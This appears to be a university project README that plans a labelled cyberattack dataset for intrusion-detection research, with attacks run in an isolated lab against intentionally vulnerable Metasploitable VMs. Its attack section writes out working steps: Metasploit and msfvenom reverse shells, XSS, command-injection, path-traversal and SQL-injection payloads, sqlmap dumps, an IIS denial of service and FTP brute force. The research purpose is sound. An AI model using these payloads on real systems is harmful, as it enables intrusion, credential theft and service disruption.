

# General Info
This project is focused on creation of a Cybersecurity Attacks Dataset which can later be used for IDS/IPS systems, ML or any other relevant purpose.

The idea is to have an isolated environment with intentionally vulnerable VM's and volunteer attackers who will conduct the attacks. 

In the following sections there is information on the different aspects of this project, and all of that is for the purpose of constructing a Methodology for the entire process.

`Prof note` - sections including what my Professors mentioned to take in mind
`Here we would have` - sections including plan/ideas of what we are going to do / should do regarding that aspect 
# Scenario

#### Prof note
 - VM
 - Container Images
 - CVE
#### Here we would have:
- Metasploitable 2 VMs
- Metasploitable 3 VMs
	- Ubuntu VMs
		- Check if attacks on the Ubuntu VM are possible
	- Windows VMs
		- All attacks are performed on the Windows VM
- SecGen Custom VMs - Still testing if possible
- VulHub Docker Containers inside VMs
#### To think about
- Should we provide the attackers with Kali VMs or should they bring their own?
	- If we provide them, we can preconfigure the VMs with the required tools, NTP config, etc.

# Monitoring

#### Prof note
- Netflow
- Syslog
- Raw Packet Capture
- NTP (synchronize timestamps)

#### Here we would have:

##### RAW Packet Capture
- Still to be tested by Bidik's proposal - Waiting on it
##### NTP
- NTP Syncing will be done by configuring `ntp.finki.ukim.mk` as NTP server on all machines 
- For Linux based, in **systemd** 
	- `/etc/systemd/timesyncd.conf`
- *For older Linux distros, manual installation of NTP server*
- For Windows based, in **Windows Time Service (W32Time)**
##### Logs
- [VictoriaLogs](https://github.com/VictoriaMetrics/VictoriaLogs)
	- All the system logs are stored here
	- Pulling logs from the Kafka queue

- Log Agent on the machine
	- Collect logs from the machine and send them to Kafka
	- Possible agents:
		- [Grafana Promtail](https://grafana.com/grafana/dashboards/20881-promtail-monitoring-metrics-and-logs/)
		- [fluentbit](https://fluentbit.io/)

- [Kafka](https://kafka.apache.org/)
	- receiving and queuing logs from the log agent of each machine

- Deployment scheme:
		
##### NetFlow

- [nprobe](https://www.ntop.org/products/netflow-probes/nprobe/) - NetFlow probe (on the firewall)

- [ntopng](https://www.ntop.org/products/traffic-analysis/ntopng/) - NetFlow web interface

- [kafka](https://kafka.apache.org/)
	- optional: receiving and queuing NetFlow packets from the NetFlow probe (nProbe on the firewall)

- Deployment scheme:
	
# Attacks

#### Prof note
 - List of attacks + variations
 - Procedure for conducting each attack
#### Here we would have:
- Done in separate markdowns in `/Exploits` - Work in progress

## Status info

- **success** - exploited successfully
- **ran** - ran without errors but did not exploit
- **error** - tool errored / attack did not run properly

---

## Metasploitable 2

### 1. Unix R-Services Reverse Shell

**Name:** `ms2-rservices-revshell`  
**Target port:** 513 / TCP

```bash
attacklog start --name ms2-rservices-revshell --dst-ip <dst-ip> --dst-port 513
```

```bash
rlogin -l root <dst-ip>
```

```bash
attacklog end --status <success|ran|error>
```

---

### 2. UnrealIRCD Backdoor Reverse Shell

**Name:** `ms2-unrealircd-revshell`  
**Target port:** 6667 / TCP

```bash
attacklog start --name ms2-unrealircd-revshell --dst-ip <dst-ip> --dst-port 6667
```

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST <dst-ip>
set RPORT 6667
set LHOST <your_ip>
set LPORT 4444
set payload cmd/unix/reverse
exploit
```

```bash
attacklog end --status <success|ran|error>
```

---

### 3. DVWA XSS Reflected

**Name:** `ms2-dvwa-xss-reflected`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms2-dvwa-xss-reflected --dst-ip <dst-ip> --dst-port 80
```

Navigate to the DVWA XSS (Reflected) page and inject into the input field:

**Low / Medium:**

```
<svg onload=alert('Example')>
```

**High:** same payload, same bypass.

```bash
attacklog end --status <success|ran|error>
```

---

### 4. DVWA XSS Stored

**Name:** `ms2-dvwa-xss-stored`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms2-dvwa-xss-stored --dst-ip <dst-ip> --dst-port 80
```

Navigate to the DVWA XSS (Stored) page.

**Low** - inject into message field:

```
<script>alert('example')</script>
```

**Medium** - expand the `Name` field's maxlength in browser DevTools, then inject into name:

```

```

**High:** not bypassable.

```bash
attacklog end --status <success|ran|error>
```

---

### 5. DVWA Command Injection

**Name:** `ms2-dvwa-cmdinject`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms2-dvwa-cmdinject --dst-ip <dst-ip> --dst-port 80
```

Navigate to the DVWA Command Execution page.

**Low:**

```
127.0.0.1 && whoami
```

**Medium:**

```
127.0.0.1 | whoami
```

```bash
attacklog end --status <success|ran|error>
```

---

### 6. DVWA File Inclusion (LFI)

**Name:** `ms2-dvwa-lfi`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms2-dvwa-lfi --dst-ip <dst-ip> --dst-port 80
```

**Low:**

```
http://<dst-ip>/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

```bash
attacklog end --status <success|ran|error>
```

---

### 7. DVWA SQL Injection (Manual)

**Name:** `ms2-dvwa-sqli-manual`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms2-dvwa-sqli-manual --dst-ip <dst-ip> --dst-port 80
```

Navigate to the DVWA SQL Injection page.

**Low:**

```
1' or 1 = '1
```

Dump column names:

```
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
```

Dump credentials:

```
' UNION SELECT user, password FROM users#
```

**Medium:**

```
1 UNION SELECT user, password FROM users#
```

```bash
attacklog end --status <success|ran|error>
```

---

### 8. Mutillidae SQLMap

**Name:** `ms2-mutillidae-sqlmap`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms2-mutillidae-sqlmap --dst-ip <dst-ip> --dst-port 80
```

Run one or more of the following. Pick based on what traffic pattern is needed:

**Basic scan:**

```bash
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username,password --batch
```

**Boolean-based blind:**

```bash
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=B --batch --level=3
```

**Time-based blind:**

```bash
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=T --batch --level=3
```

**Error-based:**

```bash
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=E --batch --level=3
```

**UNION-based:**

```bash
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --technique=U --batch --level=3 --union-cols=3-6
```

**Full dump (aggressive):**

```bash
sqlmap -u "http://<dst-ip>/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username --batch --dbs --tables --dump --level=5 --risk=3
```

```bash
attacklog end --status <success|ran|error>
```

---

## Metasploitable 3

### 9. GlassFish Reverse Shell

**Name:** `ms3-glassfish-revshell`  
**Target port:** 4848 / TCP

```bash
attacklog start --name ms3-glassfish-revshell --dst-ip 10.10.10.16 --dst-port 4848
```

Generate the payload:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f war -o shell.war
```

Start a listener:

```
use exploit/multi/handler
set PAYLOAD java/jsp_shell_reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

Upload via the GlassFish admin panel at `http://10.10.10.16:4848` (credentials: `admin / sploit`):

1. Left panel -> **Applications** -> **Deploy**
2. Browse and select `shell.war` -> **OK**

Trigger the shell:

```bash
curl http://10.10.10.16:8080/shell/
```

```bash
attacklog end --status <success|ran|error>
```

---

### 10. Jenkins Reverse Shell

**Name:** `ms3-jenkins-revshell`  
**Target port:** 8484 / TCP

```bash
attacklog start --name ms3-jenkins-revshell --dst-ip 10.10.10.16 --dst-port 8484
```

```
use exploit/multi/http/jenkins_script_console
set RHOSTS 10.10.10.16
set RPORT 8484
set LHOST <your_ip>
set LPORT 4447
set PAYLOAD windows/meterpreter/reverse_tcp
set TARGETURI /script
exploit
```

```bash
attacklog end --status <success|ran|error>
```

---

### 11. IIS HTTP Denial of Service (CVE-2015-1635)

**Name:** `ms3-iis-http-dos`  
**Target port:** 80 / TCP

```bash
attacklog start --name ms3-iis-http-dos --dst-ip 10.10.10.16 --dst-port 80
```

```
use auxiliary/dos/http/ms15_034_ulonglongadd
set RHOSTS 10.10.10.16
set RPORT 80
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 12. IIS FTP Wordlist Login Attack

**Name:** `ms3-iis-ftp-wordlist`  
**Target port:** 21 / TCP

```bash
attacklog start --name ms3-iis-ftp-wordlist --dst-ip 10.10.10.16 --dst-port 21
```

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 10.10.10.16
set RPORT 21
set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 13. ElasticSearch Reverse Shell (CVE-2014-3120)

**Name:** `ms3-elasticsearch-revshell`  
**Target port:** 9200 / TCP

```bash
attacklog start --name ms3-elasticsearch-revshell --dst-ip 10.10.10.16 --dst-port 9200
```

```
use exploit/multi/elasticsearch/script_mvel_rce
set RHOSTS 10.10.10.16
set RPORT 9200
set LHOST <your_ip>
set LPORT 4444
set PAYLOAD java/meterpreter/reverse_tcp
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 14. SNMP Enumeration

**Name:** `ms3-snmp-enum`  
**Target port:** 161 / UDP

```bash
attacklog start --name ms3-snmp-enum --dst-ip 10.10.10.16 --dst-port 161 --protocol udp
```

```
use auxiliary/scanner/snmp/snmp_enum
set RHOSTS 10.10.10.16
set RPORT 161
set COMMUNITY public
set VERSION 1
run
```

```bash
attacklog end --status <success|ran|error>
```

---

### 15. JMX Reverse Shell (CVE-2015-2342)

**Name:** `ms3-jmx-revshell`  
**Target port:** 1617 / TCP

```bash
attacklog start --name ms3-jmx-revshell --dst-ip 10.10.10.16 --dst-port 1617
```

```
use exploit/multi/misc/java_jmx_server
set RHOSTS 10.10.10.16
set RPORT 1617
set LHOST <your_ip>
set LPORT 4444
set payload java/meterpreter/reverse_tcp
run
```

```bash
attacklog end --status <success|ran|error>
```

# Timing

#### Prof note
 - How many days
 - Schedule of attack
 - Which should be conducted in parallel
 - Which should be conducted non-parallel (alone)
#### Here we would have:
- Will leave it for after the 'Attacks' section.
# Benign Traffic - To discuss - Not relevant right now

# Automatic Labeling

#### Prof note
- What should each attacker keep track of, how, and where?
#### Here we would have:
- Each attacker should keep track of each action/step they take during the attack
- We should have clear timestamps (from - to)
- We should have clear note on which attack it is in the given timestamp
- We should have clear note on source IP and source port(s), destination IP and destination port(s)
- Attackers will be provided with VPN access to the controlled environment with each getting a static IP address, still they should state the source IP for each attack (or a dedicated kali vm inside the environment with a static ip - no need for VPN)
- Each attacker will be assigned multiple attacks/exploits by random
- For each attack, the attackers will be given markdown file with step-by-step instructions on how to perform the attack
- For each attack, the attackers will be given an intentionally vulnerable VM IP address and port 
	- Have in mind that a single VM can be used by many attackers and for exploiting many vulnerabilities (the exact deployment, number of machines and variants are not discussed in this section and will be defined later - not relevant for now)
##### What is really important: What should each attacker keep track of, how, and where, in order for us to be easier later to conduct automatic labelling of the flows and raw packets using scripts

##### Ideas
- Provide attackers with preconfigured Kali VMs
- Create a CLI tool that will be used for automatically take metrics on attack start/end
- Maybe use Kafka integration for the CLI tool to automatically send the recorded attack data

#### Here we would have:

Each attacker runs the `attacklog` CLI tool (installed and initialized on their machine
before the session begins) to bracket every attack with a start and end event.
This produces a structured SQLite record per attack that can be joined against
captured flows and packets during post-processing.

##### What each record captures
- `attack_id` - unique UUID per attempt, auto-generated
- `attacker_id` + `src_ip` - set once at init, never re-entered, format: `attacker_<number>`
- `attack_name` - canonical name matching the entry in the Attacks section
- `dst_ip` + `dst_port` + `protocol` - entered at start
- `t_start` / `t_end` - millisecond-precision UTC timestamps from the system clock
- `status` - `success`, `ran` (completed without exploiting), or `error`
- `notes` - optional free-text field for anomalies

##### Attacker workflow (per attack)
1. Run `attacklog start` with the attack name, destination IP, port, and protocol
2. Execute the attack following the step-by-step instructions
3. Run `attacklog end` with the outcome status

##### Setup
- Each attacker is provided with a preconfigured Kali VM
- NTP is synced to `ntp.finki.ukim.mk` on all machines (attacker and target)
  before any session begins - this is the single most important prerequisite
  for reliable timestamp joining
- `attacklog` is pre-installed and initialized on each Kali VM with the
  attacker's assigned `attacker_id` and static IP (`src_ip`)
- Each attacker is assigned a static IP, making `src_ip` a reliable
  identifier in flow/packet matching

##### Labeling logic
The automatic labeling script joins the `attacklog` SQLite export against
NetFlow records and raw packet captures using:
- `src_ip` + `dst_ip` + `dst_port` + `protocol` as the 5-tuple key
  (source port is not recorded - it is recovered from the PCAP during joining)
- `t_start` / `t_end` as the time window, with a ±1s tolerance for clock jitter

Any flow outside a matched window is labeled **benign**. This is safe given
the isolated environment - no legitimate user traffic exists on the target
services, and infrastructure traffic (NTP, Kafka, log shipping) operates on
entirely different ports.

##### Open attack guard
`attacklog` refuses to start a new attack if a previous one has no `t_end`.
This prevents silent data corruption from forgotten `end` calls.

##### Data storage and export
- Records are stored locally at `~/.attacklog/attacks.db` (SQLite)
- Exported via `attacklog export --format json` or `--format csv` at the end
  of each session and submitted for post-processing
- Kafka integration is deferred - to be discussed

##### What is NOT recorded (by design)
- Callback / reverse shell sessions (dst → src) - recoverable from PCAP
- CVE, tool, payload type - defined in the attack instruction files,
  joined by `attack_name` during post-processing; no manual entry needed